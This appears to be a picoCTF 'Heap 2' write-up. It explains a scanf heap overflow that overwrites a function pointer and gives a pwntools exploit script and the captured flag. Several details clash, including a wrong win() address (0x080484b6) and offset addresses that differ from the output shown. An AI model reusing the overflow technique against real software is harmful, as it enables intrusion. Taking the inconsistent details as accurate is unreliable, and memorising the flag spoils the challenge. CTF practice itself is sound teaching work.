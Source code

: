 ```yaml
---
layout: post
title:  "Heap 2"
description: Writing and understanding a buffer overflow payload
date:   2024-10-22
tags: ["Medium", "Buffer Overflow", "Binary Exploitation"]
category: [CTF,picoCTF]
---
```


## Challenge Info
Can you handle function pointers? Download the binary [here](https://artifacts.picoctf.net/c_mimas/49/chall). Download the source [here](https://artifacts.picoctf.net/c_mimas/49/chall.c).

Additional details will be available after launching your challenge instance.

## Understanding chall.c

The code for your convenience:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64

int num_allocs;
char *x;
char *input_data;

void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);
}

void check_win() { ((void (*)())*(int*)x)(); }

void print_menu() {
    printf("\n1. Print Heap\n2. Write to buffer\n3. Print x\n4. Print Flag\n5. "
           "Exit\n\nEnter your choice: ");
    fflush(stdout);
}

void init() {

    printf("\nI have a function, I sometimes like to call it, maybe you should change it\n");
    fflush(stdout);

    input_data = malloc(5);
    strncpy(input_data, "pico", 5);
    x = malloc(5);
    strncpy(x, "bico", 5);
}

void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}

void print_heap() {
    printf("[*]   Address   ->   Value   \n");
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", x, x);
    fflush(stdout);
}

int main(void) {

    // Setup
    init();

    int choice;

    while (1) {
        print_menu();
	if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print x
            printf("\n\nx = %s\n\n", x);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

- Defines a constant for the max size of the flag string (`FLAGSIZE_MAX`).
- Two char pointers are declared: `x` is used to store a string, `input_data` stores user input- each being 5 bytes of size.
- A `win()` function is declared. It reads the flag from a file (`flag.txt`) and prints it for us. It uses a buffer to store said flag, and ensures that it doesn't exceed `FLAGSIZE_MAX`
- A `check_win()` is declared. It executes a function at the address stored in the `x` pointer.
- The `init()` function allocates memory for `input_data` and `x`, and initializes them with the strings "pico" and "bico" respectively.
- The `write_buffer()` function asks the use for input, which the function will then store in `input_data` using `scanf` (recall that `scanf` is unsafe, as it does not check for buffer overflows).


## Vulnerabilities
There's several vulnerabilities to note:
- The `write_buffer()` function is using `scanf` to read user input. `scanf` is unsecure and can be overflowed.
- The `input_data` and `x` buffer are allocated to hold only 5 bytes (4 bytes and then a null character)
- The `check_win()` function executes code at the memory address being stored in `x`.


## Connecting to the netcat listener
```terminal
> nc mimas.picoctf.net 55662

I have a function, I sometimes like to call it, maybe you should change it

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 1
[*]   Address   ->   Value
+-------------+-----------+
[*]   0x18572b0  ->   pico
+-------------+-----------+
[*]   0x18572d0  ->   bico

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice:
```
Again, `pico` and `bico` are the values inside the buffers (`input_data` & `x` respectively) that were declared at the start. Again, the reason they're declared to be 5 bytes, is to leave 1 byte for the null character.

Just like last time, we're given the addresses. The only thing that's different is that these are buffers instead of variables. Again, we'll subtract the address of `pico` with the address of `bico`.

`0x22b82b0 - 0x22b82d0 = -0x20`. When ran through [cyber chef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')To_Decimal('Space',false)&input=LTB4MjA) (from hex to decimal) we get a value of 32. And because like last time, our initial hex value was negative, this means that `input_data` is 32 bytes behind `x`.


## The Plan

We now know that `input_data` is 32 bytes behind `x`. Additionally, we know that the `check_win()` function executes a function at the address stored in the `x` pointer. Finally we know that if a `win()` function is declared, it'll read us the flag.

*So, in short, we want to:* overflow to reach the `x` pointer, and then get it to hold a value identical to the address of the `win()` function, so that when `check_win()` is automatically ran, instead of executing *'bico'* at `x`, it will execute `win()`- thus giving us our flag.

## Solution

Before we write our payload, we need to know the address corresponding to `win()`. A simple [objdump](https://man7.org/linux/man-pages/man1/objdump.1.html) will reveal this:

```terminal
> objdump -d ./chall | grep win
00000000004011a0 <win>:
00000000004011f0 <check_win>:
```

We now know that `win()` is at `0x080484b6`. **However**, because of C's memory layout, we need to consider C's memory layout. C uses a little-endian system to ensure that the least significant bytes are placed first. Because of this, we want to input the address of `win()` in little-endian order.

Our payload should look something like this:

```py
from pwn import *

# Connect to the remote service
p = remote("mimas.picoctf.net", 53827)

# Construct the payload
payload = b"AAAA" * 8 + b"\xa0\x11\x40\x00\x00\x00\x00\x00"

# Send option '2' to allocate the object
p.sendline(b"2")

# Wait for the server to ask for the buffer input
p.recvuntil(b"buffer:")

# Send the constructed payload
p.sendline(payload)

# Wait for the next prompt (choice menu)
p.recvuntil(b"choice:")

# Send option '4' to check for win condition
p.sendline(b"4")

# Print the final output (possibly the flag)
print(p.recvall())
```

flag: `picoCTF{and_down_the_road_we_go_dde41590}`
